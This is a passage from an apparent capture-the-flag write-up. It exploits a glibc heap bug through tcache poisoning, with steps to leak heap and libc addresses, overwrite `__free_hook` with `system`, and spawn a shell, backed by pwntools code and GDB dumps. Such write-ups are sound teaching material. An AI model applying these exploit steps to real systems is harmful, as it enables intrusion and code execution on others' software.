 Knowing all of this, the steps to exploitation are as follows:

1. Get a heap leak.
2. Use the heap leak and the tcache poisoning attack to get a chunk at a heap address where we have a forged 0x91 sized chunk.
3. Free this 0x91 sized chunk 7 times to fill up the 0x80 tcache bin. Free one more time to get a libc leak.
4. Do a tcache poisoning attack to overwrite `__free_hook` to `system`.
5. Free a chunk whose first 8 bytes are `'/bin/sh\x00'` to call `system('/bin/sh\x00')` and get a shell.

First, the heap leak is easy. I added one chunk and freed it four times to get the leak. The reason I freed four times is because we're going to do two tcache poisoning attacks soon, and those will mess up the count that the 0x40 tcache bin keeps (of the number of chunks in that specific bin). We free four times to make the count go up to 4, so that when we do the tcache poisoning attacks later, the count actually fixes itself.

After the four frees, simply showing this chunk will give us a heap leak since its FD pointer will point to itself:
```python
# ----------- Heap Leak ------------
# Prepare
add('A'*0x3e)

# We do four frees to keep the 0x40 tcache bin count correct
for i in range(4):
    free()

# Leak the fourth chunk's address on the heap
show()

heap_leak = u64(p.recvline().strip('\n').ljust(8, '\x00'))
log.info('Heap leak: ' + hex(heap_leak))
```

Next, we "empty" the 0x40 tcache bin. We do this by first allocating one of our four free chunks from above out of it and setting its FD to null. We allocate again to get the same chunk back, but since the FD was set to NULL, the tcache bin is now empty. However, its count is still set to 2.
```python
# ----------- Libc Leak ------------
# Empty the 0x40 tcache bin first
add(p64(0) + 'A'*8) # Set FD to null here
add('A'*8) # 0x40 tcache bin now empty
# Note that after the above, the 0x40 tcache bin will have count = 2
```

Next, we create four chunks and make it so that all of them have their FD pointer set to a legitimate value (our heap leak), and also make them all look like they have fake 0x91 sized chunks within them with their `PREV_INUSE` bits set:
```python
# Create four chunks to prep for libc leak
# Make all of them have fake chunks in them with PREV_INUSE bits set
# And make all of them have valid FD pointers as well
for i in range(4):
    add((p64(heap_leak) + p64(0x91)) * 3)
```
```c
gef➤  x/40gx 0x000055cfa8a992c0-0x10
0x55cfa8a992b0: 0x0000000000000000      0x0000000000000051 // Chunk 1
0x55cfa8a992c0: 0x000055cfa8a99270      0x0000000000000091
0x55cfa8a992d0: 0x000055cfa8a99270      0x0000000000000091
0x55cfa8a992e0: 0x000055cfa8a99270      0x0000000000000091
0x55cfa8a992f0: 0x000000000000000a      0x0000000000000000
0x55cfa8a99300: 0x0000000000000000      0x0000000000000051 // Chunk 2
0x55cfa8a99310: 0x000055cfa8a99270      0x0000000000000091
0x55cfa8a99320: 0x000055cfa8a99270      0x0000000000000091
0x55cfa8a99330: 0x000055cfa8a99270      0x0000000000000091
```